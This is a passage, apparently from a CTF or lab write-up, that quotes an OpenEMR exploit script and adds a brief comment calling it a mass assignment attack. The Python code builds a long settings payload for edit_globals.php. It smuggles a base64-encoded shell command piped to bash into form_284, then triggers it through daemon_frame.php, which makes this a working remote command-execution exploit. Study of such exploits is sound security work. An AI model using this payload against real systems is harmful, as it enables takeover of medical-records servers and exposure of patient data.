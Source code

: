 ```python
    payload += "m_223=50&form_224=&form_225=&form_226=&form_227=50&form_228=&form_229=&fo"
    payload += "rm_230=&form_231=1&form_232=1&form_233=1&form_234=1&form_235=1&form_236=1"
    payload += "&form_237=1&form_238=1&form_239=Model+Registry&form_240=125789123&form_24"
    payload += "1=1&form_242=1&form_243=1&form_244=&form_245=&form_246=1&form_247=1&form_"
    payload += "248=1&form_249=5&form_250=1&form_252=1&form_253=1&form_254=1&form_255=1&f"
    payload += "orm_256=1&form_257=1&form_258=1&form_262=&form_263=6514&form_264=&form_26"
    payload += "5=&form_267=1&form_268=0&form_269=%2Fusr%2Fbin&form_270=%2Fusr%2Fbin&form"
    payload += "_271=%2Ftmp&form_272=%2Ftmp&form_273=26&form_274=state&form_275=1&form_27"
    payload += "6=26&form_277=country&form_278=lpr+-P+HPLaserjet6P+-o+cpi%3D10+-o+lpi%3D6"
    payload += "+-o+page-left%3D72+-o+page-top%3D72&form_279=&form_280=&form_282=2018-07-"
    payload += "23&form_283=1&form_285=%2Fvar%2Fspool%2Fhylafax&form_286=enscript+-M+Lett"
    payload += "er+-B+-e%5E+--margins%3D36%3A36%3A36%3A36&form_288=%2Fmnt%2Fscan_docs&for"
    payload += "m_290=https%3A%2F%2Fyour_web_site.com%2Fopenemr%2Fportal&form_292=1&form_"
    payload += "296=https%3A%2F%2Fyour_web_site.com%2Fopenemr%2Fpatients&form_297=1&form_"
    payload += "299=&form_300=&form_301=&form_302=https%3A%2F%2Fssh.mydocsportal.com%2Fpr"
    payload += "ovider.php&form_303=https%3A%2F%2Fssh.mydocsportal.com&form_305=https%3A%"
    payload += "2F%2Fyour_cms_site.com%2F&form_306=&form_307=&form_308=0&form_309=https%3"
    payload += "A%2F%2Fhapi.fhir.org%2FbaseDstu3%2F&form_312=https%3A%2F%2Fsecure.newcrop"
    payload += "accounts.com%2FInterfaceV7%2FRxEntry.aspx&form_313=https%3A%2F%2Fsecure.n"
    payload += "ewcropaccounts.com%2Fv7%2FWebServices%2FUpdate1.asmx%3FWSDL%3Bhttps%3A%2F"
    payload += "%2Fsecure.newcropaccounts.com%2Fv7%2FWebServices%2FPatient.asmx%3FWSDL&fo"
    payload += "rm_314=21600&form_315=21600&form_316=&form_317=&form_318=&form_319=1&form"
    payload += "_324=&form_325=0&form_327=137&form_328=7C84773D5063B20BC9E41636A091C6F17E"
    payload += "9C1E34&form_329=C36275&form_330=0&form_332=https%3A%2F%2Fphimail.example."
    payload += "com%3A32541&form_333=&form_334=&form_335=admin&form_336=5&form_339=1&form"
    payload += "_346=LETTER&form_347=30&form_348=30&form_349=72&form_350=30&form_351=P&fo"
    payload += "rm_352=en&form_353=LETTER&form_354=5&form_355=5&form_356=5&form_357=8&for"
    payload += "m_358=D&form_359=1&form_360=9&form_361=1&form_362=104.775&form_363=241.3&"
    payload += "form_364=14&form_365=65&form_366=220"

    p = {}
    for c in payload.replace("&", "\n").splitlines():
        a = c.split("=")
        p.update({a[0]: a[1]})

    # Linux only, but can be easily modified for Windows.
    _cmd = "|| echo " + base64.b64encode(args.cmd) + "|base64 -d|bash"
    p.update({"form_284": _cmd})

    print(load + "Injecting payload")
    s.post(args.host + "/interface/super/edit_globals.php", data=p)
    sp = s.get(args.host + "/interface/main/daemon_frame.php") # M4tt D4em0n w0z h3r3 ;PpPpp
    if sp.status_code == 200:
        print(load + "Payload executed")
```

Ok, this seems a `Mass Assignment Attack`, because its entering a lot of info in the parameters on `/edit_globals.php`:
